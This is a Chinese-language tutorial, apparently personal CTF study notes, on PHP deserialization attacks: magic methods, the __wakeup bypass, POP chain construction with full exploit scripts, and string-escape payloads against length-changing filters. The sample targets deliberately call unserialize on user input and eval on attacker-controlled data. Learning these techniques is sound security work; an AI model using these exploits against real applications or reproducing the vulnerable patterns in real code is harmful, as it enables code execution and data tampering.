

[toc]

# 1.反序列化

Demo:

```php
<?php 
    class test
    {
        private $flag = "flag{233}";
    	protected $ccc = "ccc";
        public $a = "aaa";
        static $b = "bbb";
    }

    $test = new test;
    $data = serialize($test);
    echo $data;
?>
    out:
O:4:"test":3:{s:10:"testflag";s:9:"flag{233}";s:6:"*ccc";s:3:"ccc";s:1:"a";s:3:"aaa";}

```

注意这里testflag长度为8，但序列化的显示确是10，可以抓包一下：



可以看到其实类名的前后有不可见字符，其实就是%00，这是因为flag是private，所以在传入序列化字符串进行反序列化时需要注意补齐两个空字节。（protected同理）

反序列化：

```php
<?php 
    $str = 'O%3A4%3A%22test%22%3A2%3A%7Bs%3A10%3A%22%00test%00flag%22%3Bs%3A9%3A%22flag%7B233%7D%22%3Bs%3A1%3A%22a%22%3Bs%3A3%3A%22aaa%22%3B%7D';
    $data = urldecode($str);
    $obj = unserialize($data);

    var_dump($obj);
 ?>
     out:
object(__PHP_Incomplete_Class)#1 (3) { 
    ["__PHP_Incomplete_Class_Name"]=> string(4) "test" 
    ["flag:private"]=> string(9) "flag{233}" 
    ["a"]=> string(3) "aaa" } 
```

## 1.魔术方法

常见魔术方法：

```php
__construct()//创建对象时触发
__destruct() //对象被销毁时触发
__call() //在对象上下文中调用不可访问的方法时触发
__callStatic() //在静态上下文中调用不可访问的方法时触发
__get() //用于从不可访问的属性读取数据
__set() //用于将数据写入不可访问的属性
__isset() //在不可访问的属性上调用isset()或empty()触发
__unset() //在不可访问的属性上使用unset()时触发
__invoke() //当脚本尝试将对象调用为函数时触发
__sleep()//在对象在被序列化之前运行
__wakeup()//将在反序列化之后立即被调用(通过序列化对象元素个数不符来绕过)
__toString() //当一个对象被当作一个字符串使用

```

### \_\_sleep()

>   serialize() 函数会检查类中是否存在一个魔术方法 __sleep()。如果存在，==该方法会先被调用，然后才执行序列化操作==。此功能可以用于清理对象，并返回一个包含对象中所有应被序列化的变量名称的数组。如果该方法未返回任何内容，则 NULL 被序列化，并产生一个 E_NOTICE 级别的错误。

对象被序列化之前触发，返回需要被序列化存储的成员属性，删除不必要的属性。

### \_\_wakeup()

>   unserialize() 会检查是否存在一个 \_\_wakeup() 方法。如果存在，则会先调用 \_\_wakeup 方法，预先准备对象需要的资源。

预先准备对象资源，返回void，常用于反序列化操作中重新建立数据库连接或执行其他初始化操作。

test:

```php
<?php 
class Caiji{
    public function __construct($ID, $sex, $age){
        $this->ID = $ID;
        $this->sex = $sex;
        $this->age = $age;
        $this->info = sprintf("ID: %s, age: %d, sex: %s", $this->ID, $this->sex, $this->age);
    }

    public function getInfo(){
        echo $this->info . '<br>';
    }
    /**
     * serialize前调用 用于删选需要被序列化存储的成员变量
     * @return array [description]
     */
    public function __sleep(){
        echo __METHOD__ . '<br>';
        return ['ID', 'sex', 'age'];
    }
    /**
     * unserialize前调用 用于预先准备对象资源
     */
    public function __wakeup(){
        echo __METHOD__ . '<br>';
        $this->info = sprintf("ID: %s, age: %d, sex: %s", $this->ID, $this->sex, $this->age);
    }
}

$me = new Caiji('twosmi1e', 20, 'male');

$me->getInfo();
//存在__sleep(函数，$info属性不会被存储
$temp = serialize($me);
echo $temp . '<br>';

$me = unserialize($temp);
//__wakeup()组装的$info
$me->getInfo();

?>
    out:
ID: twosmi1e, age: 20, sex: male
Caiji::__sleep
O:5:"Caiji":3:{s:2:"ID";s:8:"twosmi1e";s:3:"sex";i:20;s:3:"age";s:4:"male";}
Caiji::__wakeup
ID: twosmi1e, age: 20, sex: male
```

流程：`__construct`->`getInfo()`->`__sleep`->`__wakeup`->`getInfo()`

### \_\_toString()

>   __toString() 方法用于一个类被当成字符串时应怎样回应。例如 echo $obj; 应该显示些什么。此方法必须返回一个字符串，否则将发出一条 E_RECOVERABLE_ERROR 级别的致命错误。

test；

```php
<?php 
class Caiji{
    public function __construct($ID, $sex, $age){
        $this->ID = $ID;
        $this->sex = $sex;
        $this->age = $age;
        $this->info = sprintf("ID: %s, age: %d, sex: %s", $this->ID, $this->sex, $this->age);
    }

    public function __toString(){
        return $this->info;
    }
}

$me = new Caiji('twosmi1e', 20, 'male');
echo '__toString:' . $me . '<br>';
?>
    output:
__toString:ID: twosmi1e, age: 20, sex: male
```

## 2.反序列化对象注入

### 1.绕过\_\_wakeup()方法

test:

```php
<?php 
class SoFun{ 
  protected $file='index.php';
  function __destruct(){ 
    if(!empty($this->file)) {
      if(strchr($this-> file,"\\")===false &&  strchr($this->file, '/')===false)
        show_source(dirname (__FILE__).'/'.$this ->file);
      else
        die('Wrong filename.');
    }
  }  
  function __wakeup(){
   $this-> file='index.php';
  } 
  public function __toString()
    return '' ;
  }
}     
if (!isset($_GET['file'])){ 
  show_source('index.php');
}
else{ 
  $file=base64_decode($_GET['file']); 
  echo unserialize($file); 
}
 ?> #<!--key in flag.php-->
```

就是要利用unserialize将file设为flag.php，但是`__wakeup`会在unserialize之前执行，所以要绕过这一点。

CVE-2016-7124漏洞，**当序列化字符串中表示对象属性个数的值大于真实的属性个数时会跳过__wakeup的执行**

构造序列化对象：`O:5:"SoFun":1:{S:7:"\00*\00file";s:8:"flag.php";}`
**绕过__wakeup**：`O:5:"SoFun":2:{S:7:"\00*\00file";s:8:"flag.php";}`

## 3.POP链构造

### 1.POP：面向属性编程

面向属性编程（Property-Oriented Programing） 用于上层语言构造特定调用链的方法，与二进制利用中的面向返回编程（Return-Oriented Programing）的原理相似，都是从现有运行环境中寻找一系列的代码或者指令调用，然后根据需求构成一组连续的调用链。在控制代码或者程序的执行流程后就能够使用这一组调用链来执行一些操作。

### 2.基本概念

在二进制利用时，ROP 链构造中是寻找当前系统环境中或者内存环境里已经存在的、具有固定地址且带有返回操作的指令集，而 POP 链的构造则是寻找程序当前环境中已经定义了或者能够动态加载的对象中的属性（函数方法），将一些可能的调用组合在一起形成一个完整的、具有目的性的操作。
二进制中通常是由于内存溢出控制了指令执行流程，而反序列化过程就是控制代码执行流程的方法之一，前提：**进行反序列化的数据能够被用户输入所控制。**

### 3.POP链利用

一般的序列化攻击都在PHP魔术方法中出现可利用的漏洞，因为自动调用触发漏洞，但如果关键代码没在魔术方法中，而是在一个类的普通方法中。这时候就可以通过构造POP链寻找相同的函数名将类的属性和敏感函数的属性联系起来。

```php
<?php
class lemon {
    protected $ClassObj;

    function __construct() {
        $this->ClassObj = new normal();
    }

    function __destruct() {
        $this->ClassObj->action();
    }
}

class normal {
    function action() {
        echo "hello";
    }
}

class evil {
    private $data;
    function action() {
        eval($this->data);
    }
}
unserialize($_GET['d']);
```

lemon类调用normal类，且normal和evil类都有action方法，可以构造pop链调用evil中的action方法：

```php
<?php
class lemon {
    protected $ClassObj;
    function __construct() {
        $this->ClassObj = new evil();
    }
}
class evil {
    private $data = "phpinfo();";
}
echo urlencode(serialize(new lemon()));
```

这里还是要借助`__construct`方法，不能使用`protected $ClassObj = new evil();`

demo2:

```php
<?php
class start_gg
{
        public $mod1;
        public $mod2;
        public function __destruct()
        {
                $this->mod1->test1();
        }
}
class Call
{
        public $mod1;
        public $mod2;
        public function test1()
    {
            $this->mod1->test2();
    }
}
class funct
{
        public $mod1;
        public $mod2;
        public function __call($test2,$arr)
        {
                $s1 = $this->mod1;
                $s1();
        }
}
class func
{
        public $mod1;
        public $mod2;
        public function __invoke()
        {
                $this->mod2 = "字符串拼接".$this->mod1;
        } 
}
class string1
{
        public $str1;
        public $str2;
        public function __toString()
        {
                $this->str1->get_flag();
                return "1";
        }
}
class GetFlag
{
        public function get_flag()
        {
                echo "flag:"."xxxxxxxxxxxx";
        }
}
$a = $_GET['string'];
unserialize($a);
?>
```

1.  `string1`中的`__tostring`存在`$this->str1->get_flag()`，分析一下要自动调用`__tostring()`需要把类`string1`当成字符串来使用，因为调用的是参数`str1`的方法，所以需要把`str1`赋值为类`GetFlag`的对象。
2.  发现类`func`中存在`__invoke`方法执行了字符串拼接，需要把`func`当成函数使用自动调用`__invoke`然后把`$mod1`赋值为`string1`的对象与`$mod2`拼接。
3.  在`funct`中找到了函数调用，需要把`mod1`赋值为`func`类的对象，又因为函数调用在`__call`方法中，且参数为`$test2`,即无法调用`test2`方法时自动调用 `__call`方法；
4.  在`Call`中的`test1`方法中存在`$this->mod1->test2();`，需要把`$mod1`赋值为`funct`的对象，让`__call`自动调用。
5.  查找`test1`方法的调用点，在`start_gg`中发现`$this->mod1->test1();`，把`$mod1`赋值为`start_gg`类的对象，等待`__destruct()`自动调用。

exp：

```php
<?php
class start_gg
{
        public $mod1;
        public $mod2;
        public function __construct()
        {
                $this->mod1 = new Call();//把$mod1赋值为Call类对象
        }
        public function __destruct()
        {
                $this->mod1->test1();
        }
}
class Call
{
        public $mod1;
        public $mod2;
        public function __construct()
        {
                $this->mod1 = new funct();//把 $mod1赋值为funct类对象
        }
        public function test1()
        {
                $this->mod1->test2();
        }
}

class funct
{
        public $mod1;
        public $mod2;
        public function __construct()
        {
                $this->mod1= new func();//把 $mod1赋值为func类对象

        }
        public function __call($test2,$arr)
        {
                $s1 = $this->mod1;
                $s1();
        }
}
class func
{
        public $mod1;
        public $mod2;
        public function __construct()
        {
                $this->mod1= new string1();//把 $mod1赋值为string1类对象

        }
        public function __invoke()
        {        
                $this->mod2 = "字符串拼接".$this->mod1;
        } 
}
class string1
{
        public $str1;
        public function __construct()
        {
                $this->str1= new GetFlag();//把 $str1赋值为GetFlag类对象          
        }
        public function __toString()
        {        
                $this->str1->get_flag();
                return "1";
        }
}
class GetFlag
{
        public function get_flag()
        {
                echo "flag:"."xxxxxxxxxxxx";
        }
}
$b = new start_gg;//构造start_gg类对象$b
echo urlencode(serialize($b))."<br />";//显示输出url编码后的序列化对象
```

还是不太熟，之后多练几个题吧。


# 2.反序列化字符逃逸

反序列化字符逃逸：

一共两种情况：一个是替换后导致序列化字符串变长，另一个就是替换后序列化的字符串变短。

此类题目的本质就是改变序列化字符串的长度，导致反序列化漏洞，这种题目有个共同点：

1.  php序列化后的字符串经过了替换或者修改，导致字符串长度发生变化。
2.  总是**先进行序列化**，**再进行替换修改操作**。

## 一、替换后序列化字符串变长

示例代码：

```php
<?php
function filter($str){
    return str_replace('bb', 'ccc', $str);
}
class A{
    public $name='aaaa';
    public $pass='123456';
}
$AA=new A();
echo serialize($AA);
$res=filter(serialize($AA));
echo $res;
$c=unserialize($res);
echo $c->pass;
?>
// out : O:1:"A":2:{s:4:"name";s:4:"aaaa";s:4:"pass";s:6:"123456";}
```

可以看到序列化字符串是以`;}`来结尾，假若将这个加入序列化的字符串中，就会导致序列化的字符串提前闭合结束，丢弃掉后面的内容。

```php
$a = unserialize('O:1:"A":2:{s:4:"name";s:5:"aaaa";s:4:"pass";s:6:"123456";}');
echo $a;
```

这里会出错，原因是因为他会把双引号当做字符串，而下一个是分号，没有闭合导致报错。

假如说上面的代码中`$name = 'aaaabb'`，这时会进行替换，

```php
O:1:"A":2:{s:4:"name";s:6:"aaaaccc";s:4:"pass";s:6:"123456";}
```

而再次反序列化的时候就会出错，末尾的c是读取不到的，这样就形成了一个字符串的逃逸。也就是说每多加一个bb就会逃逸一个字符。那我们将逃逸的字符串的长度填充成我们要反序列化的代码长度的话那就可以控制反序列化的结果以及类里面的变量值了。

假若在name处写一些其他的东西：

```php
<?php
function filter($str){
    return str_replace('bb', 'ccc', $str);
}
class A{
    public $name='";s:4:"pass";s:6:"hacker";}';
    public $pass='123456';
}
$AA=new A();
//echo serialize($AA);
//echo '</br>';
$res=filter(serialize($AA));
echo $res;
echo '</br>';
$c=unserialize($res);
print_r($c);

?>
out:
O:1:"A":2:{s:4:"name";s:27:"";s:4:"pass";s:6:"hacker";}";s:4:"pass";s:6:"123456";}
A Object ( [name] => ";s:4:"pass";s:6:"hacker";} [pass] => 123456 )
```

注意上面27的那个位置，还有就是可以看出pass仍然是123456。

这里主要是没有过滤，看下面的内容（`";s:4:"pass";s:6:"hacker";}`的长度为27）：

```php
class A{
    public $name='bbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbb";s:4:"pass";s:6:"hacker";}';
    public $pass='123456';
}

out:
O:1:"A":2:{s:4:"name";s:81:"ccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccc";s:4:"pass";s:6:"hacker";}";s:4:"pass";s:6:"123456";}

A Object ( 
	[name] => ccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccc 
	[pass] => hacker )
```

可以看到pass已经改为了hacker，成功逃逸。

## 二、替换之后导致序列化字符串变短

test的代码：

```php
<?php
function str_rep($string){
	return preg_replace( '/php|test/','', $string);
}

$test['name'] = $_GET['name'];
$test['sign'] = $_GET['sign']; 
$test['number'] = '2020';
$temp = str_rep(serialize($test));
printf($temp);
$fake = unserialize($temp);
echo '<br>';
print("name:".$fake['name'].'<br>');
print("sign:".$fake['sign'].'<br>');
print("number:".$fake['number'].'<br>');
?>
output:(?name=whoami&sign=hello)
a:3:{s:4:"name";s:6:"whoami";s:4:"sign";s:5:"hello";s:6:"number";s:4:"2020";}
name:whoami
sign:hello
number:2020
```

接下来使用name和sign间接修改number的值：

payload:`name=testtesttesttesttesttest&sign=hello";s:4:"sign";s:4:"eval";s:6:"number";s:4:"2000";}`

```php
a:3:{s:4:"name";s:24:"";s:4:"sign";s:54:"hello";s:4:"sign";s:4:"eval";s:6:"number";s:4:"2000";}";s:6:"number";s:4:"2020";}
name:";s:4:"sign";s:54:"hello
sign:eval
number:2000
```

将test全部替换为空，这样就导致原来正确的`";s:4:"sign";s:54:"hello`变为了name，而后面构造的恶意字符串达到了替换的效果。

